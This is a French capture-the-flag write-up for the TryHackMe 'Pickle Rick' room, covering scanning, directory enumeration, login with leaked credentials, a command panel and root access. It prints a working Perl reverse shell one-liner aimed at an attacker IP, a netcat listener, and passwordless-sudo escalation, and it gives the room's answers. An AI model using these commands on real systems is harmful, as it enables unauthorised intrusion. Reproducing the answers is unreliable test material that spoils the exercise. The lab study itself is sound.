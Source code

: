 # Pickel Rickle #

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.219.41 picklerick.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A picklerick.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-22 08:54 CEST
Nmap scan report for picklerick.thm (10.10.219.41)
Host is up (0.033s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f1:45:81:8b:01:89:af:0b:f5:b5:b1:7e:eb:a9:77:35 (RSA)
|   256 fd:6d:4e:3f:c7:88:f5:9d:ff:35:ae:82:ae:33:cc:19 (ECDSA)
|_  256 a4:e7:6a:e4:e1:38:2a:bf:2b:d2:55:7a:44:90:64:1e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/22%OT=22%CT=1%CU=41737%PV=Y%DS=2%DC=T%G=Y%TM=60F9165
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=F4%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)SEQ(
OS:SP=F4%GCD=1%ISR=10D%TI=Z%CI=I%TS=8)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=
OS:M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=68DF%W2=68
OS:DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW7
OS:%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIP
OS:CK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   32.64 ms 10.9.0.1
2   32.40 ms picklerick.thm (10.10.219.41)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.21 seconds
```

On voit avec le résultat nmap qui y a deux services :   
Le servie ssh sur le port 22  
Le servie http sur le port 80   

![page1](./task1-01.png)

Sur la page principale one voit pas grand chose.   

![page2](./task1-02.png)

Par contre dans le code source de la page dans les commentaire on trouve un non d'utilisateur.  
non d'utilisateur : R1ckRul3s   

```bash
im@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://picklerick.thm -w /usr/share/dirb/wordlists/common.txt -x html,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://picklerick.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2021/07/22 09:22:29 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 293]
/.hta.html            (Status: 403) [Size: 298]
/.hta.php             (Status: 403) [Size: 297]
/.htaccess            (Status: 403) [Size: 298]
/.htpasswd            (Status: 403) [Size: 298]
/.htaccess.html       (Status: 403) [Size: 303]
/.htpasswd.php        (Status: 403) [Size: 302]
/.htaccess.php        (Status: 403) [Size: 302]
/.htpasswd.html       (Status: 403) [Size: 303]
/assets               (Status: 301) [Size: 317] [--> http://picklerick.thm/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]                     
/index.html           (Status: 200) [Size: 1062]                                   
/index.html           (Status: 200) [Size: 1062]                                   
/login.php            (Status: 200) [Size: 882]                                    
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                     
/robots.txt           (Status: 200) [Size: 17]                                     
/server-status        (Status: 403) [Size: 302]                                    
                                                                                   
===============================================================
2021/07/22 09:23:18 Finished
===============================================================
```  

On remarque plusieurs liens disponibles interréssants :   
\/robots.txt  
\/assets   
\/login.php

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://picklerick.thm/robots.txt
Wubbalubbadubdub
```

Cette pourra nous servir plus tard.

![page3](./task1-03.png)

Ici je n'ai rien trouvé.   

![login](./task1-04.png)

Nous avons une page essayons de mettre :  
Username : R1ckRul3s   
Password : Wubbalubbadubdub 

![Command](./task1-05.png)
On utiliser des commandes pour voire les fichiers dans le serveur, mais il y a certaine commandes qui sont filtrés.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

Nous allons essayer de trouver un reverse shell qui fonctionne.   
Écoutons sur le port 1234 pour établir une connexion avec le reverse shell.   

```bash
perl -e 'use Socket;$i="10.9.228.66";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Après plusieurs tentatives  je trouve reverse shell qui fonctionne.   

**What is the first ingredient Rick needs?**

```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ip-10-10-219-41:/var/www/html$ 

www-data@ip-10-10-219-41:/var/www/html$ ls    	
ls
Sup3rS3cretPickl3Ingred.txt  clue.txt	 index.html  portal.php
assets			     denied.php  login.php   robots.txt

www-data@ip-10-10-219-41:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

On trouve le premier ingrédient.   
Réponse : mr. meeseek hair  

**Whats the second ingredient Rick needs?**

```bash
www-data@ip-10-10-219-41:/var/www/html$ cat clue.txt
cat clue.txt
Look around the file system for the other ingredient.

www-data@ip-10-10-219-41:/var/www/html$ cd /home/
www-data@ip-10-10-219-41:/home$ ls
ls
rick  ubuntu
www-data@ip-10-10-219-41:/home$ cd rick
cd rick
www-data@ip-10-10-219-41:/home/rick$ ls
ls
second ingredients
www-data@ip-10-10-219-41:/home/rick$ cat "second ingredients"
cat "second ingredients"
1 jerry tear
```

Dans le fichier clue.txt on dit de chercher ailleurs pour le trouver le deuxième ingredient.  
On trouve le fichier et on regarde à l'intérieur.  
La réponse est : 1 jerry tear  

**Whats the final ingredient Rick needs?**

```bash
www-data@ip-10-10-219-41:/home$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-219-41.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-219-41.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

D'après la configuration on peut exécuter sudo sans mot de passe.  

```bash
www-data@ip-10-10-219-41:/home$ sudo su
sudo su

root@ip-10-10-219-41:/home# cd /root/
cd /root/
root@ip-10-10-219-41:~# ls
ls
3rd.txt  snap

root@ip-10-10-219-41:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice
```

On a notre troisième ingredient.   
Réponse : fleeb juice  
